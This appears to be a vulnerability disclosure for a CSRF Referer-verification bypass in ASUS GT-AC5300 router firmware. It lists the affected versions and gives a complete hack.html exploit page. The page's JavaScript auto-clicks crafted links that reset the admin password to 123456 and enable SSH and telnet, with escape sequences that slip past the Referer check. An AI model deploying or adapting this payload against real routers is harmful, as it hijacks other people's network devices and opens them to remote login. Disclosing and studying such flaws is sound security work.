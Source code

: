 # ASUS GT-AC5300 Referer verification bypassed CSRF#

**vender** ：ASUS

**Firmware version**: <=3.0.0.4.384_32738

**Exploit Author**: bigbear@galaxylab.org

**Vendor Homepage**: https://www.asus.com

**Hardware Link**:https://www.asus.com/Networking/ROG-Rapture-GT-AC5300/HelpDesk_BIOS/

## Vul detail ##
1. Go to your wi-fi router gateway [i.e: http://router.asus.com]
1. login with admin
1. visit the page http://x.x.x.x/hack.html will change the admin password to 123456 and enable the sshd service 。the source code of hack.html: 
```
<script src="./jquery-1.4.1.min.js"></script>
    <script type="text/javascript">
        if (1) {
            var a = $("<a href='http://router.asus.com/page_default.cgi?url=start_apply.htm?action_mode=apply\\46action_\\163cript=restart_time\\46http_passwd=123456' target='_blank'>1</a>").get(0);
            var b =$("<a href='http://router.asus.com/page_default.cgi?url=start_apply.htm?action_mode=apply\\46action_\\163cript=restart_time\\46telnetd_enable=1\\46sshd_enable=1\\46sshd_pass=1' target='_blank'>2</a>").get(0);
            var e = document.createEvent('MouseEvents');

            e.initEvent('click', true, true);
            a.dispatchEvent(e);
            b.dispatchEvent(e);
        }
    </script>
```